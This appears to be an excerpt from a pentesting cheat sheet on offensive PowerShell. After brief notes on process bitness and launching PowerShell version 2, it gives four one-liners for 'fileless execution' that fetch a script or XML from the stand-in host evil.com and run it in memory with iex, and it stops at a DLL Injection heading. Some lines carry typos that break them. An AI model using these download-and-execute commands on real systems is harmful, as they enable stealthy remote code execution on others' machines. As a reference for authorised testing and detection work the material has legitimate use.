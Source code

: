 # PowerShell for Pentest

## Execution

Check current powershell running in 32-bit or 64-bit

```powershell
[Environment]::Is64BitProcess
```

Run PowerShell with specific version

```powershell
#Run PowerShell version 2
powershell.exe -Version 2
```

### Fileless Execution

Fileless execution with **Net.WebClient DownloadString**

```powershell
#Run the powershell script on http://evil.com/script.ps1
iex (New-Object Net.Webclient).DownloadString("http://evil.com/script.ps1")
```

Fileless execution with **Net.WebRequest**

```powershell
#Run the powershell script on http://evil.com/script.ps1
$req = [System.NET.WebRequest]::Create("http://evil.com/script.ps1");$res = $req.GetResponse();IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```

Fileless execution with **System.Xml.XmIDocument**

{% code title="abc.xml" %}
```markup
<command>
    <abc>
        Get-Process
    </abc>
</command>
```
{% endcode %}

```powershell
§xml = New-ObjectSystem.Xml.XmlDocument;$xml.Load("http://evil.com/abc.xml");iex $xml.command.abc
```

Fileless execution with **ComObject: Msxml2**

```powershell
$pk=New-Object -ComObject Msxml2.XMLHTTP;$pk.open('GET','http://evil.com/script.ps1',$false);$pk.send();iex $pk.responseText
```

### DLL Injection

